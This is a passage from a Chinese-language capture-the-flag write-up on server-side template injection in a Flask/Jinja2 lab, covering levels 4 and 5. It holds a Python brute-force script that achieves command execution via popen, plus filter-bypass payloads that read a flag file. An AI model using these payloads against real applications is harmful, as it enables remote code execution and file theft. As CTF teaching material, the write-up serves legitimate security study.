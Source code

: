 ### [level 4](#toc_level-4)

[![在这里插入图片描述](assets/1698900310-07f6a46b1cd7bd7661fbf8568cd52721.png)](https://storage.tttang.com/media/attachment/2022/08/14/320de3ba-660d-44fe-8f96-8529fafe2b81.png)  
题目描述，过滤了`[]`中括号，这里的话可以用`__getitem()__`来代替\[\]，简单一点理解的话，如下所示

```bash
"".__class__.__mro__[1]="".__class__.__mro__.__getitem__(2)
```

所以这里的话，我们简单修改一下之前的脚本就可以继续执行了

```bash
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://192.168.134.132:5000/level/4"
        data={"code":'{{().__class__.__base__.__subclasses__().__getitem__('+str(i)+').__init__.__globals__.__getitem__("popen")("cat flag").read()}}'}
        res = requests.post(url=url,data=data, headers=headers)
        if 'Hello' in res.text:
            print(res.text)

    except:
        pass
```

[![在这里插入图片描述](assets/1698900310-83d2c92cc322c7a46f4526dfeff2bf1b.png)](https://storage.tttang.com/media/attachment/2022/08/14/cb1d355d-e563-421d-a317-644df75fceed.png)

### [level 5](#toc_level-5)

[![在这里插入图片描述](assets/1698900310-6e6d4a2c112cd9ae2af1b4b40511f7c5.png)](https://storage.tttang.com/media/attachment/2022/08/14/552fdfeb-8919-4fb1-a564-e55eec5f7821.png)  
题目说过滤了单引号和双引号，这里的话就可以考虑使用`request.arg.a`，然后发送 GEt 请求`a=xxx`这种方式来实现绕过  
我们这次使用这个 payload

```bash
{{c.__init__.__globals__['__builtins__'].open('flag', 'r').read()}}
```

构造 payload 如下

```bash
GET:a=__builtins__&b=flag&c=r
POST:code={{c.__init__.__globals__[request.args.a].open(request.args.b, request.args.c).read()}}
```
